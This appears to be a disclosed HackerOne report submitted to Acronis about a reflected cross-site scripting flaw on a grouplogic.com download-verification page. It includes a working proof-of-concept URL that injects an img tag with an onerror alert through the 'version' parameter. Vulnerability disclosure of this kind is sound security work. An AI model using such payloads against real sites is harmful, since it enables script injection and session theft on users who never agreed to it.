 # Reflected XSS on http://www.grouplogic.com/files/glidownload/verify.asp

## Report Details
- **Report ID**: 859395
- **URL**: https://hackerone.com/reports/859395
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-04-25T21:20:25.180Z
- **Disclosed**: 2021-04-13T13:23:29.831Z

## Reporter
- **Username**: ali
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello there,
I hope you are well!

As I see, Group Logic is your subsidary and www.grouplogic.com is a managed website by Acronis.
{F803772}

I found a reflected xss on http://www.grouplogic.com/
PoC: http://www.grouplogic.com/files/glidownload/verify.asp?version=AC12%27%3E%3Cimg%20src=v%20onerror=alert(document.domain)%3E

## Impact

Reflected XSS

Best Regards,
@mygf

## Attachments
- 1.png
